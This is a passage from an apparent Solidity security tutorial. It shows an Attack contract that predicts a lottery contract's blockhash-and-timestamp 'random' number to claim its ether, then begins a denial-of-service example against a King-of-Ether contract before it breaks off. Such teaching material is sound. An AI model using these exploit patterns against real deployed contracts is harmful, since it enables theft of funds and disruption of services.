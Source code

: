 ```solidity
    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

It takes time to generate a new block. It takes about 12 seconds for Ethereum using PoW to generate a block. During this time, the attacker can use the same method to calculate the answer value, and then call the GuessTheRandomNumber.guess function , the concept of "guessing right" is 100%.



### DoS 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // You can also perform a DOS by consuming all gas using assert.
```